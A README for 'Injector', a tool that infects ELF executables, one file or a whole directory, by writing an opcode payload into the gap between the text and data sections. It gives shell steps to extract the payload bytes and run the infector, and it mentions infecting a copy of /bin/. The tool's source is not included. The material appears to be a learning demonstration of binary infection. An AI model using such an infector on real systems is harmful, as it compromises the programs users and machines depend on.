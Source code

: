 # Injector

Injector is designed to infect binaries (of type elf) that have enough space (for our poison) between the text section and the data section.
the program support both single file and entire directory infection.


### Explanation (copy commands from 'usage' section below ):
    1. compile a test C source file and the injector ( with default poison )
    2. extract the opcodes from poison file after compilation since we cant inject C source code to memory
    3. test the a.out file without infection
    4. execute main with 2 arguments, the first argument can be a file or a directory to be infected, the second argument is our poison
    5. test the a.out file AFTER infection :)

### usage:
   
    1) make test
    
    2) echo -en $(objdump -dM intel -j .text poison | cut -f2 | sed 1,7d | sed 's/.*:.*//g' | tr '\n' ' ' | xargs | sed 's/[[:space:]]/\\\x/g' | sed 's/^/\\\x/') > inject 
    
    3) run ./a.out and see the message
    
    4) ./main a.out inject
    
    5) run ./a.out and see the NEW message

    
The following video shows how to infect a copy of the /bin/ folder
